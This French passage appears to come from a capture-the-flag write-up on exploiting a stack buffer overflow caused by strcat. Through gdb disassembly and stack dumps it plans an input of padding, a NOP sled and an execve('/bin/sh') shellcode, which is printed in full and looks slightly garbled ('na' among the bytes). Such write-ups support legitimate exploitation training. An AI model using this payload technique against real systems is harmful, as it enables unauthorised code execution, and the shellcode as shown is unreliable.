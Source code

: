 On voit bien ici l'effet du `strcat` qui ne détecte pas de `\0` pour notre première entrée. De plus, on voit ici que l'on a réussi à écraser l'adresse de retour de la fonction `main`. Nous somme donc sur la bonne voie.

La prochaine étape consiste à stocker notre `shell code` et à y rediriger notre code. Nous avons remarqué que la fonction `read` située dans la fonction `p` stockait les entrées de l'entrée standard dans un unique `buffer`. Pour le vérifier, on peut `break` dans la fonction `p` juste après l'appel à la fonction `read`.
```
> (gdb) disas p
[...]
   0x080484d6 <+34>:	mov    %eax,0x4(%esp)
   0x080484da <+38>:	movl   $0x0,(%esp)
   0x080484e1 <+45>:	call   0x8048380 <read@plt>
   0x080484e6 <+50>:	movl   $0xa,0x4(%esp)
   0x080484ee <+58>:	lea    -0x1008(%ebp),%eax
[...]
> (gdb) b *0x080484e6
[...]
> (gdb) r < <(/tmp/abstract_input)
[...]
> (gdb) x/20wx $esp
0xbfffe620:	0x00000000	0xbfffe630	0x00001000	0x00000000
0xbfffe630:	0x41414141	0x41414141	0x41414141	0x41414141
            ^
            entrée_1
0xbfffe640:	0x41414141	0x00000a0a	0x00000000	0x00000000
0xbfffe650:	0x00000000	0x00000000	0x00000000	0x00000000
0xbfffe660:	0x00000000	0x00000000	0x00000000	0x00000000
> (gdb) c
[...]
> (gdb) x/20wx $esp
0xbfffe620:	0x00000000	0xbfffe630	0x00001000	0x00000000
0xbfffe630:	0x42424242	0x42424242	0x42424242	0x58584242
            ^
            entrée_2
0xbfffe640:	0x0a425858	0x00000a00	0x00000000	0x00000000
0xbfffe650:	0x00000000	0x00000000	0x00000000	0x00000000
0xbfffe660:	0x00000000	0x00000000	0x00000000	0x00000000
```
On confirme bien que le `buffer` utilisé par `read` est constant. Notre `entrée_2` ne faisant pas plus de `19` caractères, il serait envisageable de stocker notre `shell code` à la suite de `entrée_1`, `entrée_2` n'allant pas l'écraser au second `read` puisque sa taille est inférieure à celle de `entrée_1`. On peut également envisager d'y ajouter une série d'instructions `NOP` pour être sûr de tomber sur notre `shell code` lors de notre redirection. Ainsi, on peut représenter nos entrées de cette manière :
```
Entrée_1 : AAAAAAAAAAAAAAAAAAAA + NOP*100 + shell_code
Entrée_2 : BBBBBBBBBBBBBBXXXXB
```
Nous utiliserons ce `shell code` :
```
\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40na\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh
```
Nous devons donc déterminer notre adresse de retour. Rappelons-nous la `stack` après un appel à `read` :
```
0xbfffe620:	0x00000000	0xbfffe630	0x00001000	0x00000000
0xbfffe630:	0x41414141	0x41414141	0x41414141	0x41414141
            ^
            entrée_1
0xbfffe640:	0x41414141	0x00000a0a	0x00000000	0x00000000
                        ^
                        adresse de retour
```